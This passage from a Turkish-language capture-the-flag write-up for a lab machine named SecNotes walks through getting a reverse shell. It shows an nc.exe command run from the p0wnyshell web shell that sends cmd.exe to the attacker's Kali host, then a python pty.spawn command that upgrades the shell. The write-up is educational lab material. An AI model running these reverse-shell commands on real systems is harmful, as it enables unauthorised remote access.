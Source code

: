 Resim 23 - Netcat Dinleme Modu

p0wnyshell üzerinden **nc.exe 10.10.15.67 9999 -e cmd.exe** komutu çalıştırıldı.

![](images/24.png)

Resim 24 - P0wnyShell

Bu komut ile KALI yerel adresi ve dinleme portu yazılarak, -e parametresi KALI üzerinde **cmd.exe** uygulaması çalıştırılması için istek gönderildi. Böylece SECNOTES makinesi KALI makinemize bağlanarak reverse shell almamızı sağlayacaktır.


![](images/25.png)

Resim 25 - Reverse Shell

tyler kullanıcısının Desktop dizinine gidildi ve **bash.lnk** uygulaması başlatıldı. Asıl konumundan bash.exe uygulamasının başlatılması için **dir /s bash.exe** komutu ile C:\ dizini üzerinden arama başlatılabilir ve o konuma gidilerek uygulama başlatılabilir.


![](images/26.png)

Resim 26 - bash.exe

Çalışan uygulamada her komutun başında işaret görebilmek için, **python -c 'import pty; pty.spawn("/bin/sh")'** komutu çalıştırıldı.

![](images/27.png)

Resim 27 - Python Spawn Shell
